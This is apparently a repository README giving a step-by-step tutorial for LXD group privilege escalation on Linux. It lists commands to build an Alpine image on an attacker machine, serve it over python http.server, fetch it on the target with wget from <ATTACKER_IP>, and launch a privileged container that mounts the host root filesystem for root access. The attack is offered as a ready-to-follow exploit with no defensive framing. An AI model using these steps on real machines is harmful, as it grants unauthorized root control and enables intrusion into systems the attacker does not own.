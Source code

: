 <h2>1. Check your target machine vulnerability</h2>

Once you connect to your target via SSH, you need to run the ID command to see if the machine is vulnerable  
to this LXD Privilege Escalation exploit (current user must be a member of lxd group).

As we can see in the screenshot below, user John is the member of lxd group, which means that the machine is vulnerable.    
  
![LXD group](https://i.imgur.com/r8oFRyo.png)

<br>
    
<h2>2. Prepare a linux container image</h2>

THIS STEP SHOULD BE DONE ON THE ATTACKER MACHINE

<br>

To prepare the linux container, you should firstly download lxd-alpine-builder through the git repository:
> git clone https://github.com/saghul/lxd-alpine-builder.git

Go into the newly made (cloned from github) directory called lxd-alpine-builder and build the Alpine image using the following command:
> sudo ./build-alpine

If the script successfully executed, it would make an file in the tar.gz format that contains the Alpine linux container.

<br>

<h2>3. Sending the Alpine linux container to the target</h2>

Now, you need to find a way to send the previously made Alpine linux container (tar.gz file with a big name) to the target machine.

For example, one way would be to make a http server in the lxd-alpine-builder directory and download the tar.gz file from it.
It can be done very easily using the pythons built-in function http.server (run the following command on your attacker machine):
> python3 -m http.server

Next, you need to download the tar.gz file, on the target machine, from the http server. You can do that via the browser, but I like to do it
via the tool called wget (run the following command on your target machine):
> wget <ATTACKER_IP>:8000/<CONTAINER_NAME>.tar.gz

where <ATTACKER_IP> is the ip of the attacker machine and  <CONTAINER_NAME> is the name of the Alpine linux container   
(for example, alpine-v3.10-x86_64-20191008_1227).

<br>

<h2>4. Configuring the container on the target machine</h2>

And finally, we need to actually "exploit" this.
For gaining root privileges we need to import the previously downloaded container into lxc.   
<br>
After that, we need to give the container privileges, add the root directory as a mount point, and start the container.
To do all this, run following commands on the target machine:
> lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage  

> lxc init myimage ignite -c security.privileged=true  

> lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  

> lxc start ignite  

> lxc exec ignite /bin/sh  

If everything succeded, we should get a bash shell in which we can do the following to actually get to the root directories  
of the target machine:
> cd /mnt/root

<br>
<hr>

And BOOM, we have successfully gained control of the root account, without actually knowing the root password  
(aka. successful privilege escalation)
